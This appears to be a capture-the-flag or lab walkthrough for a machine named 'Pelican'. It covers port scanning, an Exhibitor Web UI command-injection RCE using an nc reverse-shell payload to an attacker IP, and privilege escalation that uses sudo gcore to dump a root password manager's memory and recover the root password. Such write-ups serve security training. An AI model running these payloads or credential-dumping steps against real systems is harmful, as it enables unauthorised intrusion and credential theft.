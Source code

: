 # Pelican

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.219.98 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-05 10:56 +08
Nmap scan report for 192.168.219.98
Host is up (0.17s latency).
Not shown: 65526 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
631/tcp   open  ipp
2181/tcp  open  eforward
2222/tcp  open  EtherNetIP-1
8080/tcp  open  http-proxy
8081/tcp  open  blackice-icecap
41665/tcp open  unknown
```

Ran a detailed `nmap` scan as well:

```
$ sudo nmap -p 22,139,445,631,2181,222,8080,8081 -sC -sV --min-rate 4000 192.168.219.98
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-05 10:57 +08
Nmap scan report for 192.168.219.98
Host is up (0.17s latency).

PORT     STATE  SERVICE     VERSION
22/tcp   open   ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a8e16068bef58e707054b427ee9a7e7f (RSA)
|   256 bb999a453f350bb349e6cf1149878d94 (ECDSA)
|_  256 f2ebfc45d7e9807766a39353de00579c (ED25519)
139/tcp  open   netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
222/tcp  closed rsh-spx
445/tcp  open   netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
631/tcp  open   ipp         CUPS 2.2
|_http-title: Forbidden - CUPS v2.2.10
| http-methods: 
|_  Potentially risky methods: PUT
|_http-server-header: CUPS/2.2 IPP/2.1
2181/tcp open   zookeeper   Zookeeper 3.4.6-1569965 (Built on 02/20/2014)
8080/tcp open   http        Jetty 1.0
|_http-server-header: Jetty(1.0)
|_http-title: Error 404 Not Found
8081/tcp open   http        nginx 1.14.2
|_http-title: Did not follow redirect to http://192.168.219.98:8080/exhibitor/v1/ui/index.html
```

There's a ZooKeeper software, but there aren't any exploits for it. Port 8081 had an Exhibitor software being used, and there are RCE exploits for this:

```
$ searchsploit exhibitor
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Exhibitor Web UI 1.7.1 - Remote Code Execution             | java/webapps/48654.txt
----------------------------------------------------------- ---------------------------------
```

### Exhibitor RCE

The Exhibitor RCE is rather simple, and the Config tab looks rather vulnerable.&#x20;

<figure><img src="../../../.gitbook/assets/image (23) (9).png" alt=""><figcaption></figcaption></figure>

The `java.env` script part seems to be running `bash`. I downloaded the exploit found from `searchsploit`, and attempted their POC:

```
$(nc -e /bin/bash 192.168.45.182 4444)
```

<figure><img src="../../../.gitbook/assets/image (10) (2).png" alt=""><figcaption></figcaption></figure>

Afterwards, committing the changes would give us a reverse shell:

<figure><img src="../../../.gitbook/assets/image (12) (1) (8) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Sudo Gcore --> Root Creds

The current user has some `sudo` privileges:

```
charles@pelican:/opt/zookeeper$ sudo -l
Matching Defaults entries for charles on pelican:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User charles may run the following commands on pelican:
    (ALL) NOPASSWD: /usr/bin/gcore
```

`gcore` is a program that is used to create core dumps of running processes, and since we can use `sudo` with it, we essentially can create these dumps of any processes. As such, let's enumerate what `root` is running:

```
charles@pelican:/opt/zookeeper$ ps -ef | grep root
<TRUNCATED>
root       510   459  0 22:53 ?        00:00:00 /bin/sh -c while true; do chown -R charles:charles /opt/zookeeper && chown -R charles:charles /opt/exhibitor && sleep 1; done
avahi      522   456  0 22:53 ?        00:00:00 avahi-daemon: chroot helper
root       527     1  0 22:53 ?        00:00:00 /usr/bin/password-store
<TRUNCATED>
```

There's a `password-store` binary being run, which is essentially a password manager. We can create a core dump for this process:

```
charles@pelican:/opt/zookeeper$ sudo /usr/bin/gcore 527
0x00007f31c88806f4 in __GI___nanosleep (requested_time=requested_time@entry=0x7fffe1091db0, remaining=remaining@entry=0x7fffe1091db0) at ../sysdeps/unix/sysv/linux/nanosleep.c:28
28      ../sysdeps/unix/sysv/linux/nanosleep.c: No such file or directory.
Saved corefile core.527
```

We can then use `strings` on the core dump file to find a password:

```
charles@pelican:/opt/zookeeper$ strings core.527
<TRUNCATED>
001 Password: root:
ClogKingpinInning731
x86_64
/usr/bin/password-store
<TRUNCATED>
```

Using this password, we can `su` to `root`:

<figure><img src="../../../.gitbook/assets/image (13) (8).png" alt=""><figcaption></figcaption></figure>
